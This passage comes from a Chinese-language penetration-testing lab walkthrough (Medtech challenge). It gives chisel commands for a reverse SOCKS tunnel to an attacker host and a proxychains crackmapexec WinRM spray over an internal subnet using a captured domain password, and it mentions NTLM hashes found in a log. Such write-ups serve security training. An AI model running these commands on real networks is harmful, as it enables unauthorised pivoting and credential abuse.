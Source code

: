 使用chisel或者frp搭建个socks隧道，然后配置一下`/etc/proxychains`就可以了

```
./chisel server --port 8888 --socks5 --reverse

 .\chisel_1.10.1_windows_amd64.exe client --max-retry-count 1 192.168.45.222:8888 R:socks
```

通过上面知道的joe域用户的密码，爆破内网主机是否有可以直接远程登录的

```
proxychains crackmapexec winrm 172.16.236.10/24 -u joe -p Flowers1 -d medtech.com
```

![image-20250913121002077](./Challenge%201%20-%20Medtech/image-20250913121002077.png)

![image-20250913121028348](./Challenge%201%20-%20Medtech/image-20250913121028348.png)

并且joe属于管理员组

![image-20250913123810439](./Challenge%201%20-%20Medtech/image-20250913123810439.png)

当前目录下有`fileMonitorBackup.log`文件，打印后其中有一些NTLM值

![image-20250913121916304](./Challenge%201%20-%20Medtech/image-20250913121916304.png)
